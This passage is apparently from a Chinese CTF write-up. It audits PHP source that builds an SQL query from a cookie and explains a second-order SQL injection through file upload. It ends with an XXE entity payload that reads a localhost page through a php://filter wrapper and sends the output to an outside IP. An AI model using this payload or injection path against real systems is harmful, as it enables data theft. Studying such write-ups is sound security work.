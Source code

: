 ```php
		}else{
			die("Null filename");
		}
	}

	$username=w_addslashes($_COOKIE['user']);
	$check_code=$_COOKIE['cookie-check'];
	$check_sql="select password from user where username='".$username."'";
	$check_sum=md5($username.sql_result($check_sql,$mysql)['0']['0']);
	if($check_sum!==$check_code){
		header("Location: login.php");
	}

	$module=$_GET['module'];
	$args=$_GET['args'];
	do_api($module,$args);
?>
```

```
我们审计一下源码，可以发现文件上传存在二次注入~~
```

![image-20231102150127852](assets/image-20231102150127852.png)

在show.php中，直接将数据库中的数据取出然后放入sql语句中~~
我们存放sig的时候 可以传入十六进制~~
但是这儿有一个问题，我们必须是127.0.0.1才能访问show.php页面，展示图片信息~~
由于show.php页面会直接返回我们注入的信息，所以我们还是可以用xml将信息带出~~

e.xml

```
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=http://localhost/show.php?action=view&filename=4.txt">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://174.0.159.143/?%payl;'>">
```
